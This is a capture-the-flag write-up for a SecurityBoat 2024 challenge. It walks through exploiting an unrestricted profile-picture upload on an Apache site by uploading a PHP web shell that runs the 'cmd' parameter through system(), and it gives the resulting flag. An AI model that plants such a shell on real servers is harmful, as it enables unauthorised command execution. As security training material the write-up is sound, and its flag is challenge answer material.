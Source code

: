 # SecurityBoat 2024 CTF January Challenge

Today we are going to solve ctf challenge which has Arbitary File Upload Vulnerability.

1.  First I crawl the site, Only page that seem useful was login page (login.html)

2.  I tried SQLi and many other things, but nothing was useful . So I registered a user and logged in .

3.  After login, I went to the profile page , there was a upload profile feature.
  <img width="252" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/8f1fc20c-e27d-4396-a384-ad936e4956b2">

4.  There I knew that it would be arbitary file upload feature .

5.   First I uploaded a sample image, and checked its location on server using inspect element
<img width="556" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/da57cc32-1378-472a-90f5-9c87fdcf9ca7">

6.    Now, I created a php script to upload it.
````
<?php 
if(isset($_REQUEST['cmd'])){
    $cmd = ($_REQUEST['cmd']);
    system($cmd);
}?>
````
7.  why php ? --> So if we go to the non valid directory we can see the error is exposing that it is a Apache server and Apache server mostly uses php files.
<img width="333" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/29e73d70-f844-478f-b222-8cbbd77dcb7e">

8.   File uploaded successfully.

9.   Let's go to the uploaded image directory (assets/profPic/shelly.php) which we got in #5 point .

10.   And Boom ! , We got command execution .
<img width="402" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/1f2e6305-d6d5-495d-b36b-3548b2cd0132">

11.   <img width="466" alt="image" src="https://github.com/MrKrYP70n/Writeups/assets/114393219/2eec3234-6479-4a66-add6-4df882c6748d">

12.  ````{Unrestr!cted_F!le_Upload_!s_Fun} ````

This was a pretty good and easy challenge.
